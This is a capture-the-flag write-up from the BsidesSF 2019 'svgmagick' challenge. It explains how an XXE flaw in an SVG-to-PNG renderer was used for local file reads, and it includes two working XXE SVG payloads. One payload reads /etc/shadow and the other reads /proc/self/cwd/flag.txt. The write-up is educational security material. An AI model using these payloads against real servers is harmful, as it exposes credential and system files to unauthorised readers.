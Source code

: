 ```yaml
---
layout:     post
title:      'BsidesSF CTF 2019 - svgmagick'
date:       2019-03-11 0:00:00
author:     'W3ndige'
permalink: /:title/
category: 'BsidesSF 2019'
---
```


Another challenge that I've missed during the CTF was the ***scgmagick*** challenge rated for 100 points. Solution is very esay, but required some trial and error. Let's take a look. 

```text
When I render SVGs to PNGs, it's like magic!

Location - https://svgmagic-202d168a.challenges.bsidessf.net/

Note: flag.txt is in the working directory of the server.
```

My first guest was [ImageTragick](https://imagetragick.com/) vulnerability as the name of the challenge may suggest that. Unofrtunately, multiple tries did not find anything interesting, nothing worked so I've decided to move onto another technique. 

But while searching for different vulnerabilites, I've noticed that [XXE](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing) is available and we can read files on the local filesystem with this simply crafted ***SVG***. 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
<!ENTITY file SYSTEM "file:///etc/shadow" >
]>
<svg height="100" width="1000">
  <text x="10" y="20">&file;</text>
</svg>
```

![LFI](/img/bsidessf/svgmagick-passwd.png){:class="img-responsive center-block"}

Now we have LFI with XXE, but another obstacle is reading file in current directory. We cannot do simple `file://flag.txt` as we get a `500` error. 

After some thinking, I used my knowledge from previous challenges that we can take a look at `/proc/` filesystem, especially `/proc/self`. With [that](https://unix.stackexchange.com/questions/94357/find-out-current-working-directory-of-a-running-process) StackOverflow answer we can try to get `/proc/self/cwd/flag.txt` to get the flag. 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
<!ENTITY file SYSTEM "file:///proc/self/cwd/flag.txt" >
]>
<svg height="100" width="1000">
  <text x="10" y="20">&file;</text>
</svg>
```

![Flag](/img/bsidessf/svgmagick-flag.png){:class="img-responsive center-block"}

